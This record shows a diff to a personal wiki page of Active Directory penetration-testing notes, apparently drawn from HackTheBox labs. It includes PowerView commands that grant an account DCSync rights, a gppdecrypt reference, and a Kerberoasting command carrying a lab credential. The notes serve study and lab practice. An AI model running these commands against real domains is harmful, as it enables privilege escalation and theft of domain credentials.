

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 900 px high, scrolled down 417 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -18,27 +18,33 @@ GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
 ```
 
 # Active Directory Exploitation Strategies
- - [ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
- - **WriteDACL**
-   - [WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)
- - [Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
- - [NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)
- - [DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
-   - **With PowerView**:
-    ```
-    whoami /all
-    Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
-    net group "Exchange Windows Permissions" /add svc-alfresco
-    Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
-    Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
-    Get-DomainUser -Identity svc-alfresco
-    Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
-    ```
- - [SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
-   - ```gppdecrypt```
- - [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
-   - GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100```
-   - Requires an account user with a service principal name (SPN)
+[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
+
+[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)
+
+[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
+
+[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)
+
+[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
+**With PowerView**:
+```
+whoami /all
+Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
+net group "Exchange Windows Permissions" /add svc-alfresco
+Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
+Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
+Get-DomainUser -Identity svc-alfresco
+Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
+```
+
+[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
+```gppdecrypt```
+
+[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
+**Requires:** Domain Credentials
+**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets
+`GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100`
 
 ## Active Directory Tools
  - [PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
````
